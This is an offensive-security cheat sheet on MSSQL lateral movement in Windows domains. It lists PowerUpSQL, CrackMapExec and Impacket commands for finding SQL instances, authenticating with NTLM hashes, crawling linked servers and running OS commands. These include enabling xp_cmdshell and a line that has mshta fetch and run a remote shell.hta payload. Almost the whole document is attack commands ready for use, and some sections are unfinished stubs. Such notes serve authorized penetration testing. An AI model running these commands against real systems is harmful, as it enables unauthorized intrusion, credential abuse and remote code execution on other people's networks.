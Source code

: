 # MSSQL Lateral Movement

## 01 - Powershell

- Retrieving MSSQL SPN and domain

```
PS C:\> Get-SQLInstanceDomain

PS C:\> Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

PS C:\> Get-SQLServerLinkCrawl -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLConnectionTest -Instance "<IP>.<domain_name>,1433" | fl

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "<SQL Queries>"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "SELECT @@SERVERNAME"
```

## 02 - CrackMapExec

`$ crackmapexec mssql <IP>/<CIDR> -u "<username>" -H "<ntlm_hash>" -d <domain_name>`

## 03 - Impacket

TODO: Fill in this info

`$ mssqlclient -windows-auth <domain_name>/<username>@<IP>`

- Pass the Hash

`$ mssqlclient`

## 04 - PowerUpSQL

### 4.1 - Invoke-SQLOSCmd

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<IP>.<domain_name>,1433" -Command "<command>" -RawResults
```

### 4.2 - Get-SQLServerLinkCrawl

```
PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Verbose

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

## 05 - Sqsh

`$ pth-sqsh`

---
## References

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)